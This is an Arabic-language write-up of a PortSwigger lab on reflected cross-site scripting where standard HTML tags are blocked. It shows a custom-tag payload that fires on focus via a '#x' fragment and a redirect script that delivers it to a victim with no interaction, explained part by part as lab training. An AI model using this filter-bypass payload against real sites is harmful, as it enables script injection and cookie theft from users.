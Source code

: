 ## 1️⃣ معلومات عامة

|العنصر|التفاصيل|
|---|---|
|**رابط اللاب**|[HTML context with all standard tags blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)|
|**تاريخ الحل**|2 / 5 / 2025|
|**نوع الثغرة**|Reflected Cross-Site Scripting (XSS)|

---

## 🔰 وصف اللاب

- هذا اللاب يمنع استخدام جميع عناصر HTML القياسية (standard tags) مثل `<script>`, `<img>`... إلخ.
    
- يُسمح فقط باستخدام عناصر HTML **المخصصة (custom tags)**.
    
- الهدف هو تنفيذ هجوم XSS يظهر فيه `alert(document.cookie)` **بشكل تلقائي** دون تفاعل من المستخدم.
    

---

## 2️⃣ فهم سيناريو اللاب

- الموقع يحتوي على خانة **بحث**، وعند إدخال كلمة يتم عرضها داخل صفحة النتائج.

    ![[Screenshot 2025-05-02 151705.png]]
- أي إدخال يتم عرضه داخل الصفحة بدون ترميز (escaping) مناسب.
    
- لكن الفلتر يمنع جميع التاجات القياسية، مما يفرض علينا استخدام **custom tag**.

    ![[Screenshot 2025-05-02 153527.png]]

---

## ❓ ما هو الـ Custom Tag؟

- هو عنصر HTML غير قياسي، يُعرف أيضًا باسم **custom element**، ويُستخدم ضمن مكونات الويب (Web Components).
    
- يجب أن يحتوي اسمه على **dash `-`** مثل: `<my-element>`، حتى لا يتعارض مع عناصر HTML الأصلية.
    
- يمكن أن يحمل خصائص (`attributes`) وأحداث (`events`) تمامًا مثل أي عنصر HTML آخر.
    

🧪 **مثال:**

```html
<xss id="x" tabindex="1" onfocus="alert(document.cookie)">#x</xss>
```

---

## 3️⃣ تحليل البايلود

```html
<xss id="x" tabindex="1" onfocus="alert(document.cookie)">#x</xss>
```

|الجزء|الشرح|
|---|---|
|`<xss>`|عنصر مخصص (custom tag) غير مفلتر.|
|`id="x"`|يُستخدم للوصول إلى العنصر عبر الـ fragment (`#x`).|
|`tabindex="1"`|يجعل العنصر قابلًا للتركيز (focus).|
|`onfocus="alert(...)"`|يتم تنفيذ الكود عند حصول focus على العنصر.|
|`#x`|نص يظهر داخل العنصر، ويساعد على ظهوره داخل الصفحة.|

---

## 4️⃣ آلية تنفيذ الكود تلقائيًا

عند زيارة رابط يحتوي على:

```txt
#x
```

المتصفح تلقائيًا:

1. يبحث عن العنصر الذي `id="x"`.
    
2. يقوم بعمل **focus تلقائي** عليه.
    
3. وبما أن العنصر يحتوي على `onfocus=alert(...)` → يتم تنفيذ الكود فورًا.
    

✅ **النتيجة:** يتم تشغيل XSS بدون أي تفاعل من الضحية.

---

## 5️⃣ الكود الكامل للتنفيذ التلقائي

```html
<script>
location = "https://TARGET-LAB/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x"
</script>
```

### 🔍 شرح الكود:

|العنصر|الشرح|
|---|---|
|`<script>`|عنصر جافاسكريبت يتم تنفيذه مباشرة عند تحميل الصفحة.|
|`location =`|يقوم بتحويل المتصفح تلقائيًا إلى رابط يحتوي على البايلود.|
|`?search=...`|الباراميتر المصاب الذي يعرض ما بداخله داخل الصفحة دون ترميز.|
|`#x`|fragment يوجه المتصفح للعنصر الذي `id="x"` فيعطيه focus، مما يؤدي لتشغيل `onfocus`.|

---

## 6️⃣ لماذا يتم استخدام `location` في سكربت منفصل؟

- بعض المختبرات تتطلب أن يتم تشغيل الـ XSS **في السياق الكامل للضحية**.
    
- يتم إنشاء صفحة redirect تحتوي على السكربت السابق.
    
- عند زيارة الضحية للصفحة، يتم إعادة توجيهه تلقائيًا للرابط المصاب ويُنفذ الكود.
    

---

## 7️⃣ الفائدة الأمنية من هذا الأسلوب

- **يتخطى الفلاتر** التي تمنع عناصر مثل `<script>`, `<img>`, `onerror`... إلخ.
    
- **بسيط** ويمكن استغلاله حتى لو كانت الحماية تعتمد على حظر التاجات القياسية فقط.
    
- يُمكن استخدامه في سيناريوهات **حقيقية** إذا كان المستخدم يزور رابط يتم التحكم فيه (social engineering).
    

---

## ✅ ملخص سريع

|العنصر|الوظيفة|
|---|---|
|`<xss>`|عنصر مخصص غير مفلتر.|
|`id="x"`|لتحديد العنصر عبر `#x`.|
|`tabindex=1`|يجعل العنصر قابلاً للـ focus.|
|`onfocus=...`|يُشغل الكود عند التركيز على العنصر.|
|`#x`|يُجبر المتصفح على التركيز على العنصر تلقائيًا.|
|`location=`|يعيد توجيه المستخدم إلى الرابط المصاب تلقائيًا.|
